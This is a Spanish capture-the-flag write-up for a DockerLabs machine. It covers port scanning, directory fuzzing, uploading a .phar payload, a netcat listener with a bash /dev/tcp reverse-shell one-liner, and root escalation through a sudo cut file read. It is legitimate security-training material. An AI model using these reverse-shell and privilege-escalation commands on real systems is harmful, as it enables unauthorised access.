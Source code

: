 

![DockerLabs](https://dockerlabs.es/images/logos/logo.png)

**Autor:** [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

**Dificultad:** Fácil

**Fecha de creación:** 17/07/2024

--------------------------------------
Despliegue

```
bash auto_deploy.sh dockerlabs.tar
```

![](./images/Pasted%20image%2020250126152356.png)

Y ahí tenemos la ip de nuestra máquina víctima: 

```
172.17.0.2
```

-----------------------------------------------
Reconocimiento 

Hacemos un mapeo con nmap para ver los puertos abiertos. 

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```


![](./images/Pasted%20image%2020250126152705.png)

Vemos el puerto 80 que está abierto. Por lo que nos vamos a la web y vemos a ver qué hay. 

Vemos lo siguiente:

![](./images/Pasted%20image%2020250126152828.png)

Como vemos no hay nada que nos revele algo de información en la web por lo que haríamos es fuzzing web. 

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Usamos gobuster y nos devuelve por consola lo siguiente: 

![](./images/Pasted%20image%2020250126153330.png)

Nos sale una ruta por la que posiblemente se suban archivos por otra ruta. 

Lo que podemos es añadir a nuestro gobuster unas extensiones:

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html,py
```

Y nos sale lo siguiente:

![](./images/Pasted%20image%2020250126153751.png)

Y aquí tenemos algo jugoso. 

![](./images/Pasted%20image%2020250126153851.png)

Aquí podría subirse al directorio uploads. 

Intentamos crear un payloads con msfvenom pero nos dice lo siguiente:

![](./images/Pasted%20image%2020250126154611.png)

![](./images/Pasted%20image%2020250126155108.png)

Nos vamos al directorio /uploads

Y aquí tenemos nuestro archivo .phar

![](./images/Pasted%20image%2020250126155232.png)

Nos ponemos a la escucha con netcat. 

```
nc -nlvp 443
```

![](./images/Pasted%20image%2020250126155423.png)

y le damos al archivo. 

![](./images/Pasted%20image%2020250126155502.png)

Pondremos el siguiente comando para estar más estable. Pero antes debemos de estar en la escucha por el puerto 444 o cualquier otro. 

```
bash -c "bash -i >& /dev/tcp/"tu ip"/444 0>&1"
```

![](./images/Pasted%20image%2020250126162525.png)

Y ahora estamos algo más estable. 

Y ahora haremos un tratamiento de la tty.

![](./images/Pasted%20image%2020250126162717.png)

Ya estamos algo más estable. 

Para ver si podemos escalar privilegio usamos sudo -l 

![](./images/Pasted%20image%2020250126162950.png)

Vemos que tenemos acceso como sudo a unos binarios. 

Nos vamos a GTFObins y podemos ver como explotar estos binarios. 

```
LFILE=file_to_read
sudo cut -d "" -f1 "$LFILE"
```

nos vamos al directorio /opt
Y ejecutamos el comando: 

![](./images/Pasted%20image%2020250126163711.png)

Hemos obtenido la clave. 

Así que podemos entrar como root. 



